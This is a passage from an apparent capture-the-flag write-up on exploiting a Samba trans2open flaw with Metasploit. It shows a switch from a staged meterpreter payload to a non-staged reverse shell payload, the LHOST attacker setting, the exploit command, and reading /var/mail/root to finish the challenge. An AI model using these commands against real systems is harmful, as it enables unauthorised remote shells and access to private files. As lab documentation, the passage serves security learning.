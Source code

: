 Payload Troubleshooting
Problem: Staged payload (linux/x86/meterpreter/reverse_tcp) failed during brute-force phase
Solution: Switched to non-staged reverse shell payload

![d995b3eca99553eee7c0ca5639fc96a2.png](../_resources/d995b3eca99553eee7c0ca5639fc96a2.png)

```
msf6 exploit(trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(trans2open) > set LHOST 192.168.29.100  # Attacker IP
msf6 exploit(trans2open) > exploit
```

Successful Exploitation
![431a43cfcaa9805e34d230bac076243c.png](../_resources/431a43cfcaa9805e34d230bac076243c.png)

We can now read the ``` /var/mail/root``` file to complete the challenge:
```bash
cat /var/mail/root
```
![b12f8daf52cd54066c47b594832de382.png](../_resources/b12f8daf52cd54066c47b594832de382.png)